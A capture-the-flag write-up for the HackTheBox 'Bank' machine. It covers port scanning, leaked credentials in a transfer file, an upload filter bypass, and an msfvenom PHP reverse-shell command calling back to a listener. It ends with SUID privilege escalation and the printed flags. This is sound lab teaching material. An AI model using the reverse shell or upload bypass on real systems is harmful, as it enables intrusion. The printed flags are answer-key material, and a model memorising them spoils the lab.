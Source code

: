 # Bank
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71c41239-7326-462d-9f10-0ee1ebf1d1d8)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.29 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 00:24 PDT
Nmap scan report for 10.10.10.29
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
```

1. Since the machine is running a web application, let's run gobuster.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6f2049b7-a312-46c4-b701-6910f6048bd4)


2. Interesting there's an upload directory, anyway let's open the web app.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fb85d14-3f41-4138-98e9-a8e600266a05)


3. Already tried several sqli, it seems the login page is not vulnerable to sqli.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60203418-ab63-4ed7-bbff-3fbbd563e1b4)


4. Let's check the **balance-transfer**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4abdeee-a79f-41cc-af1c-7f22747f9b59)


5. Found many hashed or encrypted (?) transaction, but the odd is, there is one transaction with smaller size.
6. The smaller size might indicate failed hash or encryption.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d359f3f-5ba4-4f73-a18b-a7adeb5ed28e)


> CHECKING THE SMALLER SIZE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f953452-e518-420b-a4fb-a0af0b8f5d37)


7. Let's use the cred to login!

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ecfe418-37e8-4773-be37-3abe6f5fa1d7)


8. At the support option, found a file upload. This could be our interest.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d60b788-93a2-4749-8f1f-1c09e42578ab)


> PAGE SOURCE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca5a1cad-bf5b-4c8c-a88d-92477279b8ca)


9. Turns out it is, it does not sanitize what's inside the file, it just validates the extension must be .htb.
10. Knowing this we can send our PHP payload for reverse shell.

> USING TEMPLATE FROM MSFVENOM

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.26 lport=1337 -f raw > reverse_shell.htb
```

11. Set a listener on port 1337, then upload the file.
12. Next, to trigger the reverse shell, let's opened the file we already within this endpoint --> `/uploads/reverse_shell.htb`.
13. Anyway, somehow i failed to get the shell using the template from msfvenom. So i used the template from pentest-monkeys.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bbbfe336-c293-41f1-ac0a-cc67723edfd0)


## USER FLAG

```
30283e49d8e58ff28c92e1823aa1149c
```

> GETTING ROOT FLAG

14. When tried to check the sudo permission, got this response.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/25dd5d39-3637-4910-8f5a-fdaaf6e89541)


15. Knowing this, then our objective to get privesc is to find non-standar SUID file.
16. But when I want to use LinEnum, got permission denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b42ba521-6297-44ec-a395-92fe41ca38fd)


17. I think this is not the intended one, i searched it manually.
18. Found a directory named htb inside `/var`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f09974d2-d57e-4f2d-b19b-819f51e0d98e)


> OUR INTEREST --> EMERGENCY FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/948ee62e-ef4c-45d0-a359-7dff7d7783aa)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/184c27ca-a3dd-425c-af15-efe1ca7a7ddd)


19. Great! We can get root simply by running this file.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/763a47cf-3d0a-4092-9828-3dc7c6137dc3)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25796b9-9bbc-4245-9812-65471cb9e805)


## ROOT FLAG

```
ed936fca480d4bfe06be0ca3aff3bccd
```




